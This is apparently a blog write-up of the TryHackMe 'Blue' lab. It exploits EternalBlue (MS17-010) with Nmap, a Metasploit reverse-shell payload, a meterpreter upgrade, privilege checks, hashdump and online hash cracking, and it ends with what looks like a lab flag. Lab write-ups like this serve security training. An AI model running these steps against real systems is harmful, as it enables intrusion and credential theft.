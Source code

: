 ```yaml
---
layout: blog
title: THM Blue Writeup
publishDate: 2023-12-02T23:15:00.000Z
description: Step by step walkthrough of the TryHackMe Blue room. This is an
  easy windows machine based on the EternalBlue exploit (CVE-2017-0144).
tags:
  - tryhackme
  - writeup
---
```

EternalBlue is a computer exploit developed by the U.S. National Security Agency (NSA). It was leaked by the Shadow Brokers hacker group on April 14, 2017, one month after Microsoft released patches for the vulnerability.
[EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)

## Task 1

Scan all open ports for vulnerabilities using Nmap.

```sh
nmap -sV -vv --script vuln TARGET_IP -oN nmap/blue
```

## Task 2

Run Metasploit. Search for MS17-010 exploits and select the appropriate one. Set RHOSTS to the target's IP address.

```sh
set payload windows/x64/shell/reverse_tcp
```

Run the exploit to get shell access. 

## Task 3

To upgrade the shell to meterpreter, first background the shell (Ctrl+Z). Check the session ID using `sessions` command. 
Note the session ID and run:

```sh
sessions -u <session-id>
```

This command should use the post module `post/multi/manage/shell_to_meterpreter` to upgrade the selected session.

Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this.

![](/images/uploads/screenshot-2025-03-21-232450.png)

Migrate to this process using the `migrate PROCESS_ID` command, where process ID can be any process running on `NT AUTHORITY\SYSTEM`. List all processes by running `ps`.

![](/images/uploads/screenshot-2025-03-21-232513.png)

## Task 4

Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![](/images/uploads/screenshot-2025-03-21-232527.png)

To crack the password of user 'Jon', extract the NTLM hash and use [CrackStation](https://crackstation.net/)

![](/images/uploads/screenshot-2025-03-21-232544.png)

*84ck_783_914n37*
